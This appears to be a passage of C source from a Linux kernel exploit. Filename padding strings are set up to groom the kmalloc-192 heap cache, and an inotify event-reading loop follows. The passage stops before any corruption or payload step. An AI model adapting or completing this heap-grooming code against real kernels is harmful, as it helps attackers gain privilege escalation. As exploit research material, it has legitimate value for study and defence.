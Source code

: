 ```
// Try kmalloc-192 made by cyclic(100)
char *orig_name = "ffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff";
//char *longname_padding =   "qhhhhhkhkhkhfdfsdfsdfsdfsdf";
char *longname_padding = "qfffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff";
// 120
//char *orig_name = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
 
static void handle_events(int fd, int *wd, int argc, char* argv[])
{
   /* Some systems cannot read integer variables if they are not
      properly aligned. On other systems, incorrect alignment may
      decrease performance. Hence, the buffer used for reading from
      the inotify file descriptor should have the same alignment as
      struct inotify_event. */
 
   char buf[4096]
       __attribute__ ((aligned(__alignof__(struct inotify_event))));
   const struct inotify_event *event;
   int i;
   ssize_t len;
   char *ptr;
 
   /* Loop while events can be read from inotify file descriptor. */
 
   for (;!stop;) {
 
       /* Read some events. */
 
       len = read(fd, buf, sizeof buf);
       if (len == -1 && errno != EAGAIN) {
           perror("read");
           exit(EXIT_FAILURE);
       }
 
       /* If the nonblocking read() found no events to read, then
          it returns -1 with errno set to EAGAIN. In that case,
          we exit the loop. */
 
       if (len <= 0)
           break;
 
       /* Loop over all events in the buffer */
 
       for (ptr = buf; ptr < buf + len;
               ptr += sizeof(struct inotify_event) + event->len) {
 
           event = (const struct inotify_event *) ptr;
 
           /* Print event type */
/*
           if (event->mask & IN_OPEN)
               printf("IN_OPEN: ");
           if (event->mask & IN_CLOSE_NOWRITE)
               printf("IN_CLOSE_NOWRITE: ");
           if (event->mask & IN_CLOSE_WRITE)
               printf("IN_CLOSE_WRITE: ");
           if (event->mask % IN_ACCESS)
               printf("IN_ACCESS: ");
*/
           /* Print the name of the watched directory */
```